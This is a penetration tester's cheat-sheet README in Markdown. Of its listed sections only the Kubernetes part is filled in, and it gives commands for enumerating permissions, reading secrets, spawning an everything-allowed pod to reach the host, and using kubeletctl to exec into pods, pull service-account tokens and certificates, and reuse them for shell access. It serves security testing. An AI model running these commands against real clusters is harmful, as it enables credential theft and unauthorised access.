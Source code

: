 - [Kubernetes](#kubernetes)
- [Docker](#docker)
- [TMUX cheat sheet](#tmux-cheat-sheet)
- [Python venv](#python-venv)
- [Cloud](#cloud)
  - [ScoutScuit](#scoutscuit)
  - [CloudFox](#cloudfox)
  - [AWS](#aws)

## Kubernetes
[Kube Pentest](https://blog.appsecco.com/a-pentesters-approach-to-kubernetes-security-part-1-2b328252954a)
- binary:
  - https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux

- steps
  - check permisions: kubectl auth can-i --list
  - check configuration: kubectl get node/pods -o yaml
  - Check secrets
  - check folders
  - check git
  - create all allowed pod: https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed
  - go to host folderLand
  - proc/self/cgroup

- Commands:
  - /var/run/secrets/kubernetes.io/serviceaccount/token
  - kubectl get 
    - pods -A (All namespace)
    - secrets
      - kubectl get secret [name] -o (output 'json')
      - kubectl edit secret NAME
    - auth can-i --list = permissions
    - exec -it grafana-57454c95cb-v4nrk
      - exec -it NAME --namespace=name_space
    - node -o yaml = internal information
  - Using Token
    - kubeletctl -i --server IP exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p CONTAINER -c CONTAINER | tee -a k8.token = extract token
    - kubeletctl --server IP exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p CONTAINER -c CONTAINER | tee -a ca.crt  = extract cert
      - export token=`cat k8.token`
      - kubectl --token=$token --certificate-authority=ca.crt --server=https://IP:PORT auth can-i --list
    - kubectl auth can-i --list --token=${TOKEN}
    - --token=${TOKEN}
    - kubectl exec -it {NAME_POD} --token=${TOKEN} -- /bin/bash => get session
  - kubeletctl -i --server IP pods
  - kubeletctl -i --server IP scan rce
  - curl https://IP:PORT/pods -k | jq .
  - Execut commands:
    - kubeletctl -i --server IP exec "id" -p nginx -c nginx
